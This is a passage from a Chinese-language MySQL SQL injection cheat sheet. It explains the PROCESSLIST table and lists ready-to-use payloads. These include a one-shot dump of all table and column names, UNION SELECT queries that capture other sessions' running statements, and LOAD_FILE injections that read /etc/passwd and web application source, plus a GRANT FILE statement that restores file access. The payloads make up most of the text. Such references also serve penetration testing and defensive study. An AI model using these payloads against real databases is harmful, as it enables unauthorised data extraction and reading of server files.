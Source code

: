     ```sql
    (select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
    ```

## MYSQL 当前查询

`INFORMATION_SCHEMA.PROCESSLIST` 是 MySQL 和 MariaDB 中的一个特殊表，提供有关数据库服务器中活动进程和线程的信息。此表可以列出数据库正在执行的所有操作。

`PROCESSLIST` 表包含几个重要列，每个列都提供有关当前进程的详细信息。常见列包括：

* **ID** : 进程标识符。
* **USER** : 执行进程的 MySQL 用户。
* **HOST** : 启动进程的主机。
* **DB** : 进程正在访问的数据库（如果有）。
* **COMMAND** : 进程正在执行的命令类型（例如，Query，Sleep）。
* **TIME** : 进程运行的时间（秒）。
* **STATE** : 进程的当前状态。
* **INFO** : 正在执行的语句的文本，如果没有执行语句则为 NULL。

```sql
SELECT * FROM INFORMATION_SCHEMA.PROCESSLIST;
```

| ID  | USER      | HOST           | DB     | COMMAND | TIME | STATE      | INFO |
| --- | --------- | ---------------- | ------- | ------- | ---- | ---------- | ---- |
| 1   | root   | localhost        | testdb  | Query  | 10 | executing  | SELECT * FROM some_table |
| 2   | app_uset  | 192.168.0.101    | appdb   | Sleep  | 300 | sleeping  | NULL |
| 3   | gues_user | example.com:3360 | NULL    | Connect | 0    | connecting | NULL |

```sql
UNION SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #
```

一次性转储查询以提取整个表的内容。

```sql
UNION SELECT 1,(SELECT(@)FROM(SELECT(@:=0X00),(SELECT(@)FROM(information_schema.processlist)WHERE(@)IN(@:=CONCAT(@,0x3C62723E,state,0x3a,info))))a),3,4 #
```

## MYSQL 读取文件内容

需要 `filepriv`，否则会得到错误：`ERROR 1290 (HY000): MySQL 服务器正在使用 --secure-file-priv 选项运行，因此无法执行此语句`

```sql
UNION ALL SELECT LOAD_FILE('/etc/passwd') --
UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
```

如果你是数据库的 root 用户，可以通过以下查询重新启用 `LOAD_FILE`：

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```
